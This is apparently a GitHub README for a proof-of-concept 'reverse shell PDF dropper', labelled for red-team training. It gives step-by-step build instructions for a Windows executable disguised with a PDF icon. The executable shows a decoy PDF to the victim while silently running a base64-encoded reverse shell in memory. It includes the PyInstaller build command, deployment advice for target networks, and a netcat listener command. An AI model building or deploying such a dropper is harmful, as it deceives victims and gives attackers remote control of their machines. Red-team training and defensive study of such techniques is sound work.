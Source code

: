 # reverse-shell-pdf-dropper
A proof-of-concept reverse shell dropper that opens a legit PDF while executing a base64-encoded payload. For red-team training only.


# 🐚 Reverse Shell PDF Dropper (PoC)

A proof-of-concept **reverse shell dropper** built with Python and PyInstaller.  
It silently executes a base64-encoded reverse shell payload while opening a real PDF document to distract the user.

> ⚠️ **This tool is for educational and red-team lab use only.**

---

## 🧩 Features

- 🔥 Executes a reverse shell payload **in memory**
- 📄 Opens a **legitimate PDF file** to distract the victim
- 🧬 Payload is embedded as **base64**
- 🔐 Uses `PyInstaller` to generate a single `.exe` file with a **PDF icon**

---

## 📁 Files in This Project

| File           | Description                                           |
|----------------|-------------------------------------------------------|
| `loader.py`    | Main dropper: decodes & runs the payload, opens PDF  |
| `payload.py`   | Python reverse shell payload                         |
| `test.pdf`     | Legit document shown to the victim                   |
| `pdf.ico`      | Fake PDF icon (optional)                             |
| `payload.b64`  | (Generated later — see below)                        |

---

## ⚙️ How to Use

### 1. Customize Your Payload

Edit `payload.py` and set your **attacker IP and port**:

```python
host = "YOUR_IP"
port = 4444
```

### 2. Generate payload.b64

From your terminal or PowerShell:
```
base64 payload.py > payload.b64
```
✅ This will create a file named payload.b64 in the same folder.

### 3. Build the Executable with PyInstaller
```
pyinstaller --onefile --noconsole --icon=pdf.ico --add-data "payload.b64;." --add-data "test.pdf;." loader.py
```
A new standalone executable will be created in the dist/ directory:
```
dist/loader.exe
```
✅ This file can now be deployed to any host within the target network.

🧪 To test it:
Start a listener on your attacker machine:
```
nc -lvnp 4444
```
Run loader.exe on the target machine.

If successful:

The victim sees a legitimate PDF (test.pdf)
A reverse shell is silently established back to your listener
